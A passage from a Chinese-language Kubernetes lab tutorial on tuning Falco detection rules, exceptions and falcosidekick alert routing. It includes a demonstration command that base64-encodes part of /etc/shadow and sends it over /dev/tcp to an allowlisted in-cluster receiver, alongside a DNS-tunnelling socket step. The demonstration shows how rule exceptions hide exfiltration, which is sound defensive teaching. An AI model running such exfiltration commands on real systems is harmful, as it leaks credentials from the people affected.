180.0 alerts/min | 0.0 alerts/min |
| 連 8.8.8.8:53 | 命中 | 命中 |
| fork 出來的 shell（規則 B） | 命中 | 命中 |
這個 0 是 120 秒時間區間的結果，本課沒有做更長時間的觀察。
這兩條例外放行了什麼¶
誤報歸零、真正的偏離照樣報，看起來沒有代價。可是例外只比對 IP、port 和協定，不管是誰連的、送了什麼。從 baseline-nginx 對這兩個被放行的對端，做兩件帶惡意的事：
$ kubectl -n ebpf-lab exec baseline-nginx -- bash -c '
exec 3<>/dev/udp/10.0.0.10/53 && echo "dns-tunnel-socket-ok"
exec 4<>/dev/tcp/10.0.47.134/8080 &&
printf "GET /?leak=$(head -c 24 /etc/shadow | base64 -w0) HTTP/1.0\r\n\r\n" >&4 &&
head -1 <&4'
dns-tunnel-socket-ok
HTTP/1.0 200 OK
$ ./falco-alerts.sh --since 20s --rules
--- Unexpected outbound connection from lab workload: 0 筆 ---
第一行對 CoreDNS 開一個 UDP socket，這是 DNS tunnelling 的第一步。DNS tunnelling 把資料編碼在查詢的網域名稱裡送出去；CoreDNS 預設會替叢集外的名字往上游查詢，所以這條路可以通到叢集外。第二段把 /etc/shadow 的前 24 個位元組做 base64，塞進查詢字串，送給被放行的接收端 Service。最後一行是 falco-alerts.sh 撈到的結果，整理成只看規則 A：兩件事都是 0 筆。
把這兩件事和前面的連線並排，對上兩條例外：

對照第 3、4 列和第 1、2 列：連的是同樣的 IP、port、協定，例外分不出差別，所以一樣放行。
這一次，其他預設規則有報：
Warning Read sensitive file untrusted proc=head file=/etc/shadow
Notice Redirect STDOUT/STDIN to Network Connection in Container proc=bash fd.sip=10.0.47.134
那是因為這次剛好讀了 /etc/shadow，又剛好把檔案描述子（fd）重導到網路 socket。換一個情況：一支本來就連著資料庫的應用被植入程式碼，把查到的資料經由被放行的對端送出去。它沒有讀敏感檔案、沒有重導 fd，規則 A 又放行，這三條規則都不會報。
所以調校一條規則時，每加一條例外，被放行的對端就不再受這條規則檢查；例外放得越寬，規則能看到的範圍就越小。要做的是把讓出去的部分寫清楚：每條例外放行了哪個 IP、port、協定，從那裡可能送出什麼，寫進例外的名字或旁邊的註解，並定期回頭檢查還需不需要。
例外裡的 IP 是寫死的，也要一起檢查。這一章最後會刪掉接收端，known_internal_services 這條例外指向的 ClusterIP 就沒有 Service 在用了。之後新建的 Service 可能被分配到同一個 ClusterIP，那時這條例外放行的就是那個新服務的 8080，而它從來沒有被審查過。
步驟 7：看接收端收到了什麼¶
步驟 3 打開 sidekick 之後，所有 notice 以上的告警都送到了接收端，包括調校前的誤報。先數接收端收到幾筆：
其中一筆規則 A 的告警，是接收端印出來的原文：
{
"uuid": "41598610-9dfc-406f-a573-639e254146ed",
"rule": "Unexpected outbound connection from lab workload",
"priority": "Warning",
"time": "2026-08-06T11:18:21.921821552Z",
"hostname": "<node-a>",
"tags": ["", "T1071", "custom", "mitre_command_and_control", "network", "sprint2_day4"],
"output_fields": {
"fd.sip": "8.8.8.8", "fd.sport": 53, "fd.l4proto": "tcp",
"proc.name": "bash",
"container.id": "41ae0eb6f163", "container.name": "nginx",
"k8s.pod.name": "baseline-nginx", "k8s.ns.name": "ebpf-lab"
}
}
告警路徑的三段，分別對應步驟 3 圖上的證據 1、2、3：
| 段 | 證據 |
|---|---|
| 1. Falco → sidekick | sidekick 日誌的 [DEBUG] : Falco's payload : {…} |
| 2. sidekick → 接收端 | sidekick 日誌的 [INFO] : Webhook - POST OK (200) |
| 3. 接收端真的拿到了 | 接收端自己的標準輸出 RECEIVED {…}，964 次 |
最後一段只看接收端自己的日誌。Falco 和 sidekick 的日誌能證明告警送出去了，要證明對方收到，得看接收端。
964 筆裡有幾筆該看¶
按規則分組：
956 Unexpected outbound connection from lab workload
3 Shell spawned by non-runtime parent in container
2 Terminal shell in container
2 Redirect STDOUT/STDIN to Network Connection in Container
1 Read sensitive file untrusted
956 筆，也就是 99.2%，是規則 A 調校前的誤報；該看的 8 筆散在裡面。這一章是先接上路由、再調校，所以誤報全部送到了下游。實際上線時順序要反過來：先讓規則在 Falco 的標準輸出上安靜下來，再接上路由。標準輸出多幾百筆不會打擾任何人；送到下游，值班頻道會被大量訊息蓋過，呼叫器在半夜也會照樣發出通知，日誌平台也照寫入量計費。
sidekick 多做了什麼，又多了哪些成本¶
Falco 自己輸出的 JSON 只有 hostname、output、output_fields、priority、rule、source、tags、time 這幾個 key。接收端收到的多了一個 uuid，是 sidekick 替每一筆事件產生的唯一 ID：同一筆事件送到好幾個目的地時，下游可以靠它去除重複，工單系統也可以用它連回原始事件。sidekick 另外可以把一份輸入同時送到多個目的地、每個目的地各自設 minimumpriority（例如 webhook 收 notice 以上，呼叫器只收 critical），而 Falco 自己的 http_output 只能設一個位址。這兩項是 sidekick 的設定功能，本課只接了一個 webhook 目的地，沒有實測多個目的地，也沒有驗證門檻的過濾效果。
成本方面，sidekick 多了 2 顆 pod（chart 預設 replicaCount: 2，見疑難排解），每顆實測約 1m CPU、13–20Mi，比 Falco 本身小一個數量級；設定多了 webhook 位址和 priority 門檻，實際環境還要放憑證。比較需要注意的是它多了一個要顧的元件：sidekick 停了，告警就送不出去，而 Falco 一切正常、DaemonSet 全部 Ready。這就是步驟 3 圖上的第二點：sidekick 是整條告警路徑上唯一的集中點，偵測到了卻沒人收到的情況，只會發生在這裡。
收工¶
接收端和 legit-client 只用在這一章。先把 falco-values.yaml 裡的 falcosidekick.enabled 改回 false，照步驟 3 的指令再 helm upgrade 一次，關掉 sidekick；然後刪掉兩個測試用的物件：
關閉 sidekick 的 helm upgrade 成功後，先等待 Falco 滾動完成，再重新取得 Pod 名稱、檢查規則檔與載入日誌（依官方文件補上，本課沒有實跑）：
(
set -eu
kubectl -n falco rollout status daemonset/falco --timeout=5m
FALCO_POD=$(kubectl -n falco get pods \
-l app.kubernetes.io/name=falco,app.kubernetes.io/instance=falco \
-o jsonpath='{.items[0].metadata.name}')
kubectl -n falco exec "$FALCO_POD" -c falco -- \
ls -la /etc/falco/rules.d/
kubectl -n falco logs \
-l app.kubernetes.io/name=falco,app.kubernetes.io/instance=falco \
-c falco --tail=-1 --prefix=true |
sed -n '/Loading rules from/,/syscall buffer/p'
)
等待失敗就停止；依 Pod 前綴逐顆確認規則載入符合預期後，再刪除測試物件：
Falco 和調校後的兩條規則留在叢集上。Day 5 拿 Tetragon 對照時，Falco 這邊是「預設 25 條加這兩條自訂規則」。
疑難排解¶
只改規則內容，整個 DaemonSet 也重啟一遍¶
症狀：只改了規則檔（例如加一條例外），helm upgrade 之後每個節點上的 Falco pod 都重建了一次。
原因：Falco 本身會監看規則檔，改了就重新載入，但 chart 的 pod template 上有一個 annotation：
templates/pod-template.tpl:
checksum/rules: {{ include (print $.Template.BasePath "/rules-configmap.yaml") . | sha256sum }}
它的值是規則 ConfigMap 的 sha256。規則改一個字元，checksum 就變，pod spec 跟著變，DaemonSet 就滾動更新。滾動預設一次換一個節點（maxUnavailable: 1），三個節點的叢集上，只改規則內容的那次升級花了 71 秒。每個節點輪到自己時，從舊 pod 停掉到新 pod 開始比對事件之間，沒有任何 syscall 監控。這段空檔的長短可以參考 Day 3 的「從安裝到第一筆告警」：從 helm install 起算，到 Falco 掛上 probe、開始比對事件，量到的是 26 秒。整個滾動期間，kubectl get ds falco 一直顯示健康。節點越多，滾完一輪越久，一百個節點的叢集改一條例外，就要滾數十分鐘。
修法：兩種做法，各有代價：
- 直接 patch ConfigMap，不經過 helm：Falco 監看到檔案變了會重新載入，pod 不重啟；但 Helm release 記錄的狀態跟叢集實際狀態就對不上了，下一次
helm upgrade會把改動蓋掉。 - 接受滾動：把規則變更當成一次部署來排時間，不要在處理事故的途中改規則。
sidekick 兩份副本排在同一個節點¶
症狀：Falcosidekick 有兩份副本，但查詢 Pod 所在節點時，兩列的 NODE 相同：
$ kubectl -n falco get pods -l app.kubernetes.io/name=falcosidekick \
-o custom-columns=NAME:.metadata.name,NODE:.spec.nodeName,PRIO:.spec.priority
falco-falcosidekick-5f96d6d856-5zd7s <node-b> 0
falco-falcosidekick-5f96d6d856-8k4mt <node-b> 0
原因：replicaCount 預設是 2，但沒有設定 pod anti-affinity（讓同一組 Pod 分散到不同節點的排程條件），兩份副本可能排到同一個節點。該節點故障時，兩份副本都會受影響。
修法：設定 pod anti-affinity，並用上面的查詢確認兩份副本位於不同節點。
想一想¶
- 同事寫了一條規則：容器連到允許清單以外的 IP 就報。他說：「我們的服務每秒才一個請求，告警量一定不大。」那個服務用
orders.shop.svc.cluster.local這種完整的 Service 名稱，呼叫另一個 namespace 的服務。在他上線之前，你會提醒他先確認什麼？ - 為了消掉誤報，有人提議在例外裡寫
fd.snet in (10.0.0.0/8)，一次放行整個 10 開頭的網段。照這一章的作法，這條例外放行了哪些連線？它跟直接複用預設的outboundmacro，結果有什麼不同？ - 某天值班頻道一整晚沒有任何 Falco 告警，
kubectl get ds falco全部 Ready。你會依序檢查哪幾個地方，確認是真的沒事，還是告警沒送出來？
小結¶
這一章用 list、macro、rule 寫了兩條規則，補上 Day 3 找到的兩個空白：規則 A 把允許清單當成基線，規則 B 抓容器裡的程式再開的 shell，連沒有終端機的 web shell 也抓得到。規則交給 Falco 之後，要看 Falco pod 的啟動日誌確認載入，helm 成功不算數。放進一顆正常的 pod，規則 A 每分鐘報 180 筆，大部分是 ndots:5 和 search 清單造成的 DNS 查詢；用兩條具名的例外調到 0，代價是對那兩個對端的連線，不論做什麼都不會再被規則 A 看見。之後遇到一條很吵的規則，先把告警依對端拆開，找出放大的來源；加例外之前，先想清楚它放行了哪些對端、從那裡可能送出什麼；接上告警路由之前，先讓規則在標準輸出上安靜下來。
延伸閱讀¶
想再深入，可以從這幾份開始：
- 規則例外（exceptions）的官方說明 ——
fields／comps／values三者怎麼組成一段自動接在condition後面的and not，以及覆寫時override底下append與replace的差別（這裡的append是override的值，不是舊版已淘汰的append: true），對應步驟 6 的調校。 - Pod 的 DNS 設定與 ndots —— Kubernetes 官方文件寫明 pod 的
search清單與options ndots:5，步驟 4 那個六倍放大的來源。 - Falco 規則的覆寫與追加語法 —— 後解析的檔案可以用同名規則覆寫前面的定義；提供完整欄位可整條取代，用
override則可指定欄位要append或replace。追加condition時要自行加上and，例如condition: and not user.name=root；追加exceptions時可併入新的values。停用規則則用enabled: false。多個團隊可藉此分別維護例外，套用後仍要確認啟動日誌。 - Falco Helm chart 的參數表 ——
customRules的形狀（檔名對內容的 map）、falcosidekick子 chart 的開關與預設值都在這裡。 - Falcosidekick 專案 README —— 可以轉送的完整目的地清單（七十多種），接實際環境時從這份挑。
下一步¶
Falco 的做法到這裡看完了：在使用者空間比對規則，把結果報給人看。Day 5 換 Tetragon，它的規則寫成 Kubernetes 的自訂資源，而且過濾可以在核心裡完成。今天的兩條規則留在叢集上，Day 5 的對照以「預設 25 條加 2 條自訂」為準。
Falco 標誌為 Falco 專案之官方資產（CNCF artwork），此處作社群教學用途。